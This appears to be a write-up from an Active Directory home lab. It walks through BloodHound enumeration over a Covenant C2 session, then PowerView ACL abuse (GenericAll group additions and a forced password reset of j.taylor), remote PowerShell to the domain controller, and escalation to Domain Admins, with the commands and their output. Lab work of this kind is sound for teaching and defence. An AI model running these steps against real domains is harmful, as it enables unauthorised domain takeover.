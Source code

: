 # 4. Movement, Pivoting, and Persistence in Domain

> ### Machines Required: WorkStation-01,02 and Domain Controller

## 1. Domain Through BloodHound

- Interact with the session of user s.chisholm, Change the directory to `C:\Users\Public`and upload `sharphound.exe` on the target machine.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2ed13000-782a-4e4e-8208-38af83fa52ff)

- Execute the sharphound by using cmd `shell sharphound.exe -c all`.

```powershell
(singhx) > shell sharphound1.exe -c all

76 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-07-27T14:14:54.0910809+01:00|INFORMATION|SharpHound Enumeration Completed at 2:14 PM on 7/27/2023! Happy Graphing!
```
- Download the `zip` file using Covenant's download command.

```powershell
(singhx) > download 20230727141452_BloodHound.zip

Download completed: 20230727141452_BloodHound.zip
```
- Start `neo4j console` and log in.
- Open BloodHound and upload the zip file we downloaded.
- On navigating to the Analysis tab and finding the shortest path to domain admins we get a graph showing the path to domain admins.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/092a6d8e-06bf-4b55-a8d1-2c3e9d8bc812)

## 2. Abusing ACLs

- Download [PowerView_dev.ps1](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerView-Dev.ps1) and upload to the target machine using Covenant's Upload method.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/42592b10-2287-4788-bb00-92640b397eac)

- Here we have an escalation path from user s.chisholm to domain admins.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/53c1f8b1-8045-46e2-aca1-9a28f825850b)

- Move to the PowerShell console, change the directory to `C:\Useers\Public` and invoke `powerview_dev.ps1` in the console.
- use cmd `net user s.chisholm /domain` to get details about the user. The user is a member of Sales, Domain users.

```powershell
PS C:\Users\s.chisholm.mayorsec> cd c:\users\public
PS C:\users\public> . .\powerview_dev.ps1
PS C:\users\public> net user s.chisholm /domain
The request will be processed at a domain controller for domain mayorsec.local.
User name                    s.chisholm

---------------------------------SNIP-----------------------------------------

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Sales
The command completed successfully.
```

- As we have `GenericAll` permission for the user we can add the user to the group.
- Let's add "s.chisholm" to the group "Engineering".

```powershell
PS C:\users\public> net group engineering s.chisholm /add /domain
The request will be processed at a domain controller for domain mayorsec.local.

The command completed successfully.
```
- Actively observing at Bloodhoundd graph we also have `GenericAll` permissions to the "IT ADMINS" group.

```powershell
PS C:\users\public> net group "IT ADMINS" s.chisholm /add /domain
The request will be processed at a domain controller for domain mayorsec.local.

The command completed successfully.
```
- Now, we will reset the password for the user `j.taylor` by using the `-Force` method.

```powershell
PS C:\users\public> $SecPassword = ConvertTo-SecureString "FallOutBoy1!" -AsPlainText -Force
PS C:\users\public> $SecPassword = ConvertTo-SecureString 'FallOutBoy1!' -AsPlainText -Force
PS C:\users\public> $cred = New-Object System.Management.Automation.PSCredential('mayorsec\s.chisholm', $SecPassword)
PS C:\users\public> $UserPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\users\public> Set-DomainUserPassword -Identity j.taylor -AccountPassword $UserPass -Credential $cred
```
- On looking for information on user "j.taylor" we get to know that it's in the administrators group.

```powershell
PS C:\users\public>  net user j.taylor /domain
The request will be processed at a domain controller for domain mayorsec.local.

User name                    j.taylor

------------------SNIP-----------------------

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users         *IT Admins
The command completed successfully.
```

- Now, we can log in to `PS Session` using "j.taylor's" credentials.

```powershell
PS C:\users\public> Enter-PSSession -ComputerName dc01 -Credential mayorsec\j.taylor
[dc01]: PS C:\Users\j.taylor\Documents> whoami;hostname
mayorsec\j.taylor
DC01
```

- On observing at Bloodhound graph. User "j.taylor" has `WriteDACL` permissions to the "Administrators" group.

```powershell
[dc01]: PS C:\Users\j.taylor\Documents> net group "Domain Admins" j.taylor /add /domain

The command completed successfully.
```

- To verify our action we can use cmd `net user j.taylor` to see if the user is now a member of the Domain Admins group.

```powershell
[dc01]: PS C:\Users\j.taylor\Documents> net user j.taylor
User name                    j.taylor

------------------------SNIP------------------------

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Admins        *Domain Users
                             *IT Admins
```


